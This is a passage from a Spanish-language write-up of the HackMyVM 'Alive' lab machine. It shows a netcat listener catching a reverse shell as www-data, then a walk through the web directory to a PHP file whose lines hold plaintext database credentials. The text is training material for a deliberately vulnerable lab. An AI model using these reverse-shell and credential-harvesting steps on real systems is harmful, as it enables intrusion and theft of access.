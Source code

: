 Una vez cliquemos en el documento veremos que instantáneamente recibimos la conexión a nuestra máquina:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Alive]
└─# nc -nlvp 4444 
listening on [any] 4444 ...
connect to [192.168.1.105] from (UNKNOWN) [192.168.1.111] 60826
Linux alive.hmv 5.10.0-20-amd64 #1 SMP Debian 5.10.158-2 (2022-12-13) x86_64 GNU/Linux
 22:19:32 up 45 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
www-data@alive:/$
```

¡Estupendo! Ya estamos en la máquina como **www-data**.

### Subida de privilegios
Una vez dentro de la máquina tenemos que conseguir el **control total** de ella, para ello tendremos que conseguir ser `root`, vamos allá.

Lo primero que hice fue inspeccionar el directorio `/var/www/`{: .filepath }, me encontré con una carpeta llamada `code` la cual pertenece a un subdominio, pero no nos interesa el subdominio.

```sh
www-data@alive:/var/www$ ls -la
total 16
drwxr-xr-x.  4 root root 4096 Jan 12 18:44 .
drwxr-xr-x. 12 root root 4096 Jan 11 21:31 ..
drwxr-xr-x.  3 root root 4096 Jan 12 18:44 code
drwxr-xr-x.  3 root root 4096 Jan 12 18:44 html
```

Si inspeccionamos la carpeta ya nombrada veremos lo siguiente:

```
www-data@alive:/var/www/code$ ls -la
total 436
drwxr-xr-x.  3 root     root       4096 Jan 12 18:44 .
drwxr-xr-x.  4 root     root       4096 Jan 12 18:44 ..
-r--r--r--.  1 www-data www-data   1603 Jan 12 18:44 index.php
drwxr-xr-x  11 www-data www-data   4096 Jan 12 18:44 qdpmApp
-r--r--r--.  1 www-data www-data 428145 Jan 12 18:44 troll.jpg
```

Si miramos el fichero `PHP` por dentro y nos vamos a las líneas `27`, `28`, `29` y `30`, veremos lo siguiente:

```php
$servername = "localhost";
$username = "admin";
$password = "HeLL0alI4ns";
$dbname = "digitcode";
```
